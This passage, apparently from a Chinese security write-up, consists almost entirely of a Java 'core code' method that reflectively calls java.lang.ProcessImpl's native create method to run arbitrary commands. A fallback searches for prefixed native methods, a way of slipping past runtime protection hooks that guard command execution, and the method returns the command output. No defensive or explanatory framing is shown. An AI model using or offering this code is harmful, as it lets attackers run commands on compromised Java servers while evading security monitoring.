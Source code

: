 核心代码：

```bash
public static String WinCreateProcess(String cmd) throws Exception {
    Class<?> processImplClass = Class.forName("java.lang.ProcessImpl");
    long[] stdHandles = new long[]{-1, -1, -1}; // Initialize as invalid handles.
    sun.misc.JavaIOFileDescriptorAccess fdAccess
            = sun.misc.SharedSecrets.getJavaIOFileDescriptorAccess();

    // 这里将 redirectErrorStream 设置为 true 以便于将错误输出重定向到标准输出
    boolean redirectErrorStream = true;
    try {
        Method createMethod = processImplClass.getDeclaredMethod("create",
                String.class, String.class, String.class, long[].class, boolean.class);
        createMethod.setAccessible(true);
        long processHandle = (Long) createMethod.invoke(null, cmd, null, null, stdHandles, redirectErrorStream);
    } catch (Exception e) {
        System.out.println("[-] reflect create failed,try to bypass");
        for (Method m : processImplClass.getDeclaredMethods()) {
            if (m.getName().endsWith("create") && !m.getName().equals("create")) {
                System.out.println("[+] get prefix native method : " + m.getName());
                m.setAccessible(true);
                long processHandle = (Long) m.invoke(null, cmd, null, null, stdHandles, redirectErrorStream);
            }
        }
    }

    FileDescriptor stdout_fd = new FileDescriptor();
    fdAccess.setHandle(stdout_fd, stdHandles[1]);
    InputStream stdout_stream = new BufferedInputStream(
            new FileInputStream(stdout_fd));

    return getStreamStr(stdout_stream, "GBK");
}
```
